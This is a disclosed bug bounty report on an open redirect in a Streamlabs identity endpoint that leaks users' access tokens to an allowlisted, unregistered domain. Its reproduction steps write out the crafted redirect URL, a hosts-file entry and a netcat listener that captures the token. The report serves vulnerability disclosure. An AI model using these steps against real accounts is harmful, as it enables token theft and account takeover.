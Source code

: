 # Steal any users `access_token` via open redirect in https://streamlabs.com/global/identity?popup=1&r=

## Report Details
- **Report ID**: 1327742
- **URL**: https://hackerone.com/reports/1327742
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-09-02T04:53:32.503Z
- **Disclosed**: 2021-11-04T15:55:53.069Z

## Reporter
- **Username**: sudi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: logitech

## Vulnerability Information
Heyy there,
After  reading the disclosed report #1178239, I started to look for bypasses but I found that it's restricted to only streamlabs.com and merch.streamlabs.com , providing any other domain or subdomain of streamlabs.com gives an error instead of the 302 redirect.

From wayback machine (https://web.archive.org/), I found a bunch of domains which were  used in the redirect parameter `r`.
```
https://streamlabs.com/global/identity?r=https://darthvapes.tv
https://streamlabs.com/global/identity?r=https://dragynslair.live/
https://streamlabs.com/global/identity?r=https://franmg.net/merch
https://streamlabs.com/global/identity?r=https://itzyony2.com
https://streamlabs.com/global/identity?r=https://lmgtwitch.com
https://streamlabs.com/global/identity?r=https://maitresharinganv1.com
https://streamlabs.com/global/identity?r=https://themavshow.tv
https://streamlabs.com/global/identity?r=https://veterangamertv.com
https://streamlabs.com/global/identity?r=https://www.koopatroop.com
https://streamlabs.com/global/identity?r=https://www.lokenplays.com
https://streamlabs.com/global/identity?r=https://yagurlbubblezl4d.com
```

Visiting all these urls in my browser I found that only these 3 domains were allowed (the access_token was sent to this domains)
dragynslair.live
darthvapes.tv
nixxiom.tv


If an authenticated user visits this url, his access_token will be sent to the dragynslair.live domain:
https://streamlabs.com/global/identity?r=https://dragynslair.live/

{F1433713}
In this screenshot you can see that the `access_token` is added as a query parameter.

The most interesting thing about this particular domain is that it is available for registration, which you can verify from here:
https://www.name.com/domain/search/dragynslair.live

Anyone can buy this domain name for $3 , which will allow him to takeover any streamlab's user account 
{F1433718}

----------

**Steps to reproduce:**
As I haven't actually purchased this domain name `dragynslair.live` , to prove that I can steal the `access_token`. I will add dragynslair.live to my `/etc/hosts` file which will point to 127.0.0.1 and a web server wil be running on port 80 locally.
This should be enough to validate this finding.

1.Open your `/etc/hosts` file and add this line to it , save it
```bash
127.0.0.1  dragynslair.live
```
2.Now start a web server on port 80 by using this command  `sudo nc -lvk 80`
3.Open this url https://streamlabs.com/global/identity?popup=1&r=http://dragynslair.live (make sure the user is authenticated)
4.Check the ncat command output you should see the `access_token` parameter 

{F1433725}


This access_token then can be used in the following api endpoints: https://dev.streamlabs.com/reference

------------

## Impact

By just sending the url an attacker can steal victim's `access_token` which can be used in the streamlabs api endpoints.


Thankyou
Regards
Sudhanshu

## Attachments
- BurpSuiteCommunity_SxHPNdXsnP.png
- firefox_ZayRHz2tWl.png
- ubuntu_dSh04rREny.png
